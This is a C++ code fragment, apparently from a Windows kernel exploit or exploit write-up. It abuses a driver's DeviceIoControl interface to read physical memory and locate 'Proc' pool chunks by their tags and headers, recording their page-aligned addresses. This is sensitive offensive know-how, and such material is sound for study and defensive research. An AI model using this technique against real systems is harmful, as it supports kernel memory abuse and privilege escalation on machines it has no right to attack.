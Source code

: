 ```cpp
            // than offset 0xF00 here or we'll get an access violation.
            for (INT64 i = 0; i < (0xF10); i = i + 0x10)
            {
                INT64 test_address = mapped_address + i;
                INT32 test_value = *(PINT32)(test_address + 0x4);
                if (test_value == 0x636f7250)   // "Proc"
                {
                    for (INT64 x = 0; x < (0x100); x = x + 0x10)
                    {
                        INT64 header_address = test_address + x;
                        INT32 header_value = *(PINT32)header_address;
                        if (header_value == 0x00B80003) //  "Header" ending
                        {
                            // We found a "header", this is a legit "Proc"
                            proc_count++;

                            // This is the literal physical mem addr for the
                            // "Proc" pool tag
                            INT64 temp_addr = input_buff.start_address + i;
                            
                            // This address might not be page-aligned to 0x1000
                            // so find out how far off from a multiple of 
                            // 0x1000 we are. This value is stored in our 
                            // PROC_DATA struct in the page_entry_offset
                            // member.
                            INT64 modulus = temp_addr % 0x1000;
                            proc_data.page_entry_offset.push_back(modulus);
                            
                            // This is the page-aligned address where, either
                            // small or large paged memory will hold our "Proc"
                            // chunk. We store this as our proc_address member
                            // in PROC_DATA.
                            INT64 page_address = temp_addr - modulus;
                            proc_data.proc_address.push_back(
                                page_address);
                            proc_data.header_size.push_back(x);
                        }
                    }
                }
            }
            iteration++;
        }
        else
        {
            // DeviceIoControl failed
            iteration++;
            failures++;
        }
    }
    cout << "[>] \"Proc\" chunks found\n";
    cout << "    - Failed DeviceIoControl calls: " << dec << failures << "\n";
    cout << "    - Total DeviceIoControl calls: " << dec << iteration << "\n\n";

    // Returns struct of two vectors, one holds Proc chunk address
    // one holds header-size for that Proc chunk.
    return proc_data;
```
